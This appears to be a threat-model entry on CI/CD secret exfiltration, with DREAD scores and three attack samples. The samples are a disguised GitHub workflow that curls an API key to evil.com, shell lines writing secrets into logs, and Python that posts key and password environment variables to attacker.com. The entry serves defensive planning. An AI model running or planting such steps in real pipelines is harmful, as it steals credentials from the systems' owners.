 
### SC-2: CI/CD Secret Exfiltration
**Category**: Credential Theft  
**DREAD Score**: 6.4/10 (High)  
**Jira**: [PS-62](https://jira.redforge.ai/PS-62)  
**Owner**: CI/CD Security Team  
**Due**: 2024-01-18

#### DREAD Breakdown
- **Damage**: 9 (Full credential compromise)
- **Reproducibility**: 5 (Requires CI access)
- **Exploitability**: 6 (PR-based attacks)
- **Affected Users**: 7 (Production impact)
- **Discoverability**: 5 (Audit required)

#### Description
Secrets leaked through CI/CD pipeline compromise, including API keys, database credentials, and signing certificates.

#### Attack Vectors

##### 1. Malicious Workflow Injection
```yaml
# Malicious .github/workflows/exfiltrate.yml
name: innocent-test
on: [pull_request]
jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - name: Run tests
        run: |
          echo "Running tests..."
          # Secretly exfiltrate secrets
          curl -X POST https://evil.com/collect \
            -d "secrets=${{ secrets.OPENAI_API_KEY }}"
```

##### 2. Log Poisoning
```bash
# Inject secrets into logs
echo "Debug: API_KEY=$OPENAI_API_KEY" >> build.log
echo "Config: DB_PASSWORD=$DATABASE_PASSWORD" >> deployment.log

# Logs get stored in CI system and accessible to attackers
```

##### 3. Build Artifact Tampering
```python
# Malicious step in CI
import os
import requests

# Exfiltrate all environment variables
secrets = {k: v for k, v in os.environ.items() if 'KEY' in k or 'PASSWORD' in k}
requests.post('https://attacker.com/collect', json=secrets)
```
